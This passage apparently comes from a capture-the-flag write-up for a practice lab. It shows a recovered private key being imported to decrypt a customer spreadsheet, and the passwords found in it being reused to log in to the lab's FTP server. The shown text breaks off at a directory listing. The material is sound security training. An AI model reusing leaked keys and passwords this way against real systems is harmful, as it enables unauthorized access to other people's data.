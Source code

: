 - Decrypting the `CustomerDetails.xlsx.gpg` file using the `priv.key`:

```bash
$ gpg --import priv.key 
gpg: key C9AE71AB3180BC08: public key "Paradox <paradox@overpass.thm>" imported
gpg: key C9AE71AB3180BC08: secret key imported
gpg: Total number processed: 1
gpg:               imported: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

$ gpg -d CustomerDetails.xlsx.gpg > CustomerDetails.xlsx
gpg: encrypted with 2048-bit RSA key, ID 9E86A1C63FB96335, created 2020-11-08
      "Paradox <paradox@overpass.thm>"

$ file CustomerDetails.xlsx
CustomerDetails.xlsx: Microsoft Excel 2007+
```

- By opening the file using excel, we get the password of few accounts:

![CustomerDetails.xlsx](Images/overpass3-excel.png)

---

## Login into FTP

- By using the passwords recently found, we can try to login into to ftp server.
- **P.S:** The passwords didn't work for `ssh`.

### Login as paradox

- (Other two accounts didn't work.)

```bash
$ ftp 10.10.213.153
Connected to 10.10.213.153.
220 (vsFTPd 3.0.3)
Name (10.10.213.153:root): paradox
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 48       48             24 Nov 08  2020 backups
-rw-r--r--    1 0        0           65591 Nov 17  2020 hallway.jpg
-rw-r--r--    1 0        0            1770 Nov 17  2020 index.html
-rw-r--r--    1 0        0             576 Nov 17  2020 main.css
-rw-r--r--    1 0        0            2511 Nov 17  2020 overpass.svg
226 Directory send OK.

ftp> cd backups
250 Directory successfully changed.

ftp> ls -la
```